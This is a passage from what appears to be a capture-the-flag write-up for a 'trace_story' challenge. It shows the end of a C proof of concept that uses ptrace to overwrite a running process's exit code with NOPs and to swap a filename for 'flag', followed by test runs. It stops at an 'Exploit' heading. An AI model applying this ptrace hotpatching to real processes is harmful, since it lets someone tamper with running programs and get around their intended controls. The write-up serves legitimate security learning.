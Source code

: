 ```c

    //patchout exit
    ptrace(PTRACE_POKETEXT, pid, addr_exit+0, 0x9090909090909090);
    ptrace(PTRACE_POKETEXT, pid, addr_exit+2, 0x9090909090909090);

    //readstory.txt is now flag
    ptrace(PTRACE_POKETEXT, pid, txt, 0x67616c66);

    ptrace(PTRACE_DETACH, pid, NULL, NULL);

    return 0;
}
```

`wait` is the proper way to, well, _wait_ for the signal that `ptrace` attach is complete.  However I could not find a way to call `wait` (I really didn't spend a lot of time on it).  So I tested with `sleep` since I could craft one with `gettimeofday`.

The `0x9090...` integer is really a bunch of `nop`s with the exception of the `mov rdi, rsi` instruction and the change to `flag`.  

> See below for how to assemble in `python` and generate these numbers.

To test, just run the challenge binary (until you get an even PID):

```bash
# ./trace_story
[DEBUG] child pid: 28486
Input:
```

Then in a different terminal run the hotpatch:

```bash
# ./hotpatch 28486
rip: 7f8ad958e334
```

Then check your first terminal:

```bash
# ./trace_story
[DEBUG] child pid: 28486
Input:
flag{flag}
oremost, I just need ...
...
```

You'll need to first create both `readstory.txt` and `flag` files.  Also note that `flag` overwrites `readstory.txt`.  The read buffer is not initialized.

With this POC in hand, creating the shellcode was trivial.


## Exploit
